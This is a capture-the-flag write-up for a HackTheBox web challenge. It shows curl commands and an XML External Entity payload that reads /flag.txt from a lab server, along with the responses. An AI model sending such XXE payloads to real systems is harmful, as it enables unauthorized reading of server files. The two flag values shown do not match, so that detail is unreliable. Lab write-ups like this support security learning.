





HTB Writeup - Jailbreak (Very Easy)

Overview
The target was a web application runnning a Pip-Boy themed interface. The objective was to retrieve in: 
/flag.txt

The application exposed an XML firmware update feature which was vulnerable to XXE (XML External Entity Injection), allowing arbitrary file read

Vulbnerability: XXE
Impact: Local File Read (LFR)
Flag location: /flag.txt

1. Web Enumeration
The web service was accessible on the provided IP and port

curl -i 154.57.164.71:30937

The response showed the server was running Flask/Werkzeug:

2. Discovering the Firmware Update Feature
Browsing the site revealed an endpoint called /rom which contained a firmware update panel requiring XML input

curl -s 154.57.164.71:30937/rom 

This page contained textarea for submitting firmware configuration data

3. Finding the Backend API Endpoint
The ROM page loaded a javascript file responsible for handling firmware updates.

curl -s 154.57.164.71:30937/static/js/update.js

The javascript code revealed that XML data was sent directly to endpoint: POST /api/update

This confirmed the backend was parsing XML input

4. Testing for XXE Injection
Since the application was parsing XML, the next step was to test whether XML entity expansion ws enabled 

A simple entity was injected:

curl -s -X POST http://154.57.164.71:30937/api/update \
-H "Content-Type: application/xml" \
--data-binary '<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe "VANTREX"> ]>
<FirmwareUpdateConfig>
<Firmware>
<Version>&xxe;</Version>
</Firmware>
</FirmwareUpdateConfig>'

The server responded:

{
  "message": "Firmware version VANTREX update initiated."
}
 This confirmed the backend XML parser was vulnerable to XXE

5. Exploiting XXE to Read /flag.txt
After confirming XXE, the next step was to load a local file using a SYSTEM entity

payload used:

curl -s -X POST http://154.57.164.71:30937/api/update \
-H "Content-Type: application/xml" \
--data-binary '<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<FirmwareUpdateConfig>
<Firmware>
<Version>&xxe;</Version>
</Firmware>
</FirmwareUpdateConfig>'

The response returned the contents of /flag.txt inside the firmware version field

{
  "message": "Firmware version HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_ebf7df03f0a8da959a0272663842eb0} update initiated."
}
     

6. Flag

Final Flag: HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_ebf7df03f0a8da959a0272663842e2b0}
